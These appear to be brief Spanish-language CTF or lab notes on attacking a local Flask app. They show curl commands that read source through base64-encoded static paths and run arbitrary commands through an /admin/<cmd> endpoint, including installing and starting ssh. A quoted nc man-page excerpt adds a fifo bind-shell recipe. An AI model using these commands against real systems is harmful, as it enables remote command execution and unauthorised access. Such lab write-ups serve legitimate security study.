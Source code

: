 curl -v --path-as-is 'http://localhost:5000/

Es flask

curl -v --path-as-is 'http://localhost:5000/static/'$(printf app.py | base64)

Tiene path /admin/<cmd>

curl -v --path-as-is 'http://localhost:5000/admin/'$(printf ls | base64)


curl -v --path-as-is 'http://localhost:5000/admin/'$(printf "apt install -y ssh" | base64)
curl -v --path-as-is 'http://localhost:5000/admin/'$(printf "service ssh start" | base64)



```
$ man nc
...
     There is no -c or -e option in this netcat, but you still can execute a
     command after connection being established by redirecting file descrip‐
     tors. Be cautious here because opening a port and let anyone connected
     execute arbitrary command on your site is DANGEROUS. If you really need
     to do this, here is an example:

     On ‘server’ side:

           $ rm -f /tmp/f; mkfifo /tmp/f
           $ cat /tmp/f | /bin/sh -i 2>&1 | nc -l 127.0.0.1 1234 > /tmp/f

     On ‘client’ side:

           $ nc host.example.com 1234
           $ (shell prompt from host.example.com)
...
```

